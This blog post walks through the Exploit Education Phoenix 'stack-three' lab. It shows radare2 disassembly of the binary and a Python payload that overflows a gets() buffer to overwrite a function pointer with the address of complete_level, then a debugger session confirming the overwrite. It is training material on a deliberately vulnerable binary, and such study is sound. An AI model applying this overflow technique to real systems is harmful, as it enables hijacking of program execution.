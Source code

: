 ```yaml
---
layout: post
title:  "Phoenix x86 Stack Three"
date: "2019-10-12 10:33:00 +0300"
categories: exploit-education phoenix x86
---
```


To get information about the binary, `rabin2` is really useful.

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-three 
arch     x86
baddr    0x8048000
binsz    3812
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

Once more, this is a 32-bit Linux ELF with no protection against stack overflows.

The next step is to disassemble the binary.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-three 
{% endhighlight %}

{% highlight nasm %}
[0x080483a0]> aas
Cannot analyze at 0x08048620
[0x080483a0]> afl
0x0804831c    1 17           sym._init
0x080484f0    7 277  -> 112  sym.frame_dummy
0x080485e0    5 49           sym.__do_global_ctors_aux
0x08048611    1 12           sym._fini
0x08048470    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   45 588  -> 695  sym..interp
0x080483a0    1 62           entry0
0x08048390    1 6            sym.imp.__libc_start_main
0x08048710    1 14           loc.__GNU_EH_FRAME_HDR
0x08048734    3 34           sym..eh_frame
0x08048770    1 38           obj.__EH_FRAME_BEGIN
0x080483e0    4 49   -> 40   sym.deregister_tm_clones
0x080487b0    1 4            obj.__FRAME_END
0x08048555    4 132          main
0x08048535    1 32           sym.complete_level
0x08048360    1 6            sym.imp.puts
0x08048380    1 6            sym.imp.exit
0x08048350    1 6            sym.imp.gets
0x08048370    1 6            sym.imp.fflush
[0x080483a0]> s main
[0x08048555]> pdf
/ (fcn) main 132
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483d4
|           0x08048555      8d4c2404       lea ecx, [arg_4h]
|           0x08048559      83e4f0         and esp, 0xfffffff0
|           0x0804855c      ff71fc         push dword [ecx - 4]
|           0x0804855f      55             push ebp
|           0x08048560      89e5           mov ebp, esp
|           0x08048562      51             push ecx
|           0x08048563      83ec54         sub esp, 0x54
|           0x08048566      83ec0c         sub esp, 0xc
|           0x08048569      6864860408     push str.Welcome_to_phoenix_stack_three__brought_to_you_by_https:__exploit.education ; 0x8048664 ; "Welcome to phoenix/stack-three, brought to you by https://exploit.education"
|           0x0804856e      e8edfdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048573      83c410         add esp, 0x10
|           0x08048576      c745f4000000.  mov dword [var_ch], 0
|           0x0804857d      83ec0c         sub esp, 0xc
|           0x08048580      8d45b4         lea eax, [var_4ch]
|           0x08048583      50             push eax
|           0x08048584      e8c7fdffff     call sym.imp.gets           ; char *gets(char *s)
|           0x08048589      83c410         add esp, 0x10
|           0x0804858c      8b45f4         mov eax, dword [var_ch]
|           0x0804858f      85c0           test eax, eax
|       ,=< 0x08048591      742c           je 0x80485bf
|       |   0x08048593      8b45f4         mov eax, dword [var_ch]
|       |   0x08048596      83ec08         sub esp, 8
|       |   0x08048599      50             push eax
|       |   0x0804859a      68b0860408     push str.calling_function_pointer____p ; 0x80486b0 ; "calling function pointer @ %p\n"
|       |   0x0804859f      e89cfdffff     call sym.imp.printf         ; sym..interp+0x22c
|       |   0x080485a4      83c410         add esp, 0x10
|       |   0x080485a7      a1a4980408     mov eax, dword [obj.stdout] ; obj.__TMC_END
|       |                                                              ; [0x80498a4:4]=0
|       |   0x080485ac      83ec0c         sub esp, 0xc
|       |   0x080485af      50             push eax
|       |   0x080485b0      e8bbfdffff     call sym.imp.fflush         ; int fflush(FILE *stream)
|       |   0x080485b5      83c410         add esp, 0x10
|       |   0x080485b8      8b45f4         mov eax, dword [var_ch]
|       |   0x080485bb      ffd0           call eax
|      ,==< 0x080485bd      eb10           jmp 0x80485cf
|      |`-> 0x080485bf      83ec0c         sub esp, 0xc
|      |    0x080485c2      68d0860408     push str.function_pointer_remains_unmodified_:___better_luck_next_time ; 0x80486d0 ; "function pointer remains unmodified :~( better luck next time!"
|      |    0x080485c7      e894fdffff     call sym.imp.puts           ; int puts(const char *s)
|      |    0x080485cc      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x80485bd
|      `--> 0x080485cf      83ec0c         sub esp, 0xc
|           0x080485d2      6a00           push 0
\           0x080485d4      e8a7fdffff     call sym.imp.exit           ; void exit(int status)
[0x08048555]> agf
[0x08048555]>  # int main (int argc, char **argv, char **envp);
         .-----------------------------------------------------------------------------------------.
         |  0x8048555                                                                              |
         | (fcn) main 132                                                                          |
         |   int main (int argc, char **argv, char **envp);                                        |
         | ; var int32_t var_4ch @ ebp-0x4c                                                        |
         | ; var int32_t var_ch @ ebp-0xc                                                          |
         | ; arg int32_t arg_4h @ esp+0x4                                                          |
         | ; DATA XREF from entry0 @ 0x80483d4                                                     |
         | lea ecx, [arg_4h]                                                                       |
         | and esp, 0xfffffff0                                                                     |
         | push dword [ecx - 4]                                                                    |
         | push ebp                                                                                |
         | mov ebp, esp                                                                            |
         | push ecx                                                                                |
         | sub esp, 0x54                                                                           |
         | sub esp, 0xc                                                                            |
         | ; 0x8048664                                                                             |
         | ; "Welcome to phoenix/stack-three, brought to you by https://exploit.education"         |
         | push str.Welcome_to_phoenix_stack_three__brought_to_you_by_https:__exploit.education    |
         | ; int puts(const char *s)                                                               |
         | call sym.imp.puts;[oa]                                                                  |
         | add esp, 0x10                                                                           |
         | mov dword [var_ch], 0                                                                   |
         | sub esp, 0xc                                                                            |
         | lea eax, [var_4ch]                                                                      |
         | push eax                                                                                |
         | ; char *gets(char *s)                                                                   |
         | call sym.imp.gets;[ob]                                                                  |
         | add esp, 0x10                                                                           |
         | mov eax, dword [var_ch]                                                                 |
         | test eax, eax                                                                           |
         | je 0x80485bf                                                                            |
         `-----------------------------------------------------------------------------------------'
                 f t
                 | |
                 | '--------------------------------.
    .------------'                                  |
    |                                               |
.-------------------------------------------.   .---------------------------------------------------------------------------.
|  0x8048593                                |   |  0x80485bf                                                                |
| mov eax, dword [var_ch]                   |   | sub esp, 0xc                                                              |
| sub esp, 8                                |   | ; 0x80486d0                                                               |
| push eax                                  |   | ; "function pointer remains unmodified :~( better luck next time!"        |
| ; 0x80486b0                               |   | push str.function_pointer_remains_unmodified_:___better_luck_next_time    |
| ; "calling function pointer @ %p\n"       |   | ; int puts(const char *s)                                                 |
| push str.calling_function_pointer____p    |   | call sym.imp.puts;[oa]                                                    |
| ; sym..interp+0x22c                       |   | add esp, 0x10                                                             |
| call sym.imp.printf;[oc]                  |   `---------------------------------------------------------------------------'
| add esp, 0x10                             |       v
| ; obj.__TMC_END                           |       |
| ; [0x80498a4:4]=0                         |       |
| mov eax, dword [obj.stdout]               |       |
| sub esp, 0xc                              |       |
| push eax                                  |       |
| ; int fflush(FILE *stream)                |       |
| call sym.imp.fflush;[od]                  |       |
| add esp, 0x10                             |       |
| mov eax, dword [var_ch]                   |       |
| call eax                                  |       |
| jmp 0x80485cf                             |       |
`-------------------------------------------'       |
    v                                               |
    |                                               |
    '-------------------------------------.         |
                                          | .-------'
                                          | |
                                    .-----------------------------------.
                                    |  0x80485cf                        |
                                    | ; CODE XREF from main @ 0x80485bd |
                                    | sub esp, 0xc                      |
                                    | push 0                            |
                                    | ; void exit(int status)           |
                                    | call sym.imp.exit;[oe]            |
                                    `-----------------------------------'
{% endhighlight %}

This level is really not that different from the previous ones. What is of importance is that the variable `var_ch`, that needs to be overwritten by exploiting the vulnerable to stack-based buffer overflow `gets` call, is being `call`ed. Considering that its value can be overwritten, this means that an attacker can have control over the program execution.

The approach to complete this level is identical to the previous one. The objective is to call the function `sym.complete_level` at address `0x08048535`.

{% highlight python %}
#!/usr/bin/env python3
import os

os.write(1, b'\x58'*64 + b'\x35\x85\x04\x08')
{% endhighlight %}

{% highlight shell %}
$ ./theScript.py > pattern
{% endhighlight %}

{% highlight shell %}
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
{% endhighlight %}

*Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-three -r theProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7f51d4b]> aas
Cannot analyze at 0x08048620
[0xf7f51d4b]> db 0x08048584
[0xf7f51d4b]> dc
Welcome to phoenix/stack-three, brought to you by https://exploit.education
hit breakpoint at: 8048584
[0x08048584]> dr
eax = 0xffebf72c
ebx = 0xf7f87000
ecx = 0xffebf660
edx = 0x00000000
esi = 0xffebf804
edi = 0x00000001
esp = 0xffebf710
ebp = 0xffebf778
eip = 0x08048584
eflags = 0x00000296
oeax = 0xffffffff
[0x08048584]> px/24xw 0xffebf710
0xffebf710  0xffebf72c 0x00000000 0x00000084 0x00000010  ,...............
0xffebf720  0x0804831c 0x08048611 0x00000000 0x00000063  ............c...
0xffebf730  0x00000000 0x080482e4 0x00000008 0x00000008  ................
0xffebf740  0x00000011 0xf7f8919c 0x00000000 0x080482ec  ................
0xffebf750  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffebf760  0x00000000 0x00000000 0x00000000 0x00000000  ................
[0x08048584]> px/xw 0xffebf778-0xc
0xffebf76c  0x00000000                                   ....
[0x08048584]> dso
hit breakpoint at: 8048589
[0x08048584]> px/24xw 0xffebf710
0xffebf710  0xffebf72c 0x00000000 0x00000084 0x00000010  ,...............
0xffebf720  0x0804831c 0x08048611 0x00000000 0x58585858  ............XXXX
0xffebf730  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffebf740  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffebf750  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffebf760  0x58585858 0x58585858 0x58585858 0x08048535  XXXXXXXXXXXX5...
[0x08048584]> px/xw 0xffebf778-0xc
0xffebf76c  0x08048535                                   5...
[0x08048584]> dc
calling function pointer @ 0x8048535
Congratulations, you've finished phoenix/stack-three :-) Well done!
{% endhighlight %}

## Conclusion
Stack Three did not differ from Stack Two besides the value that needed to be written on the local variable `var_ch`.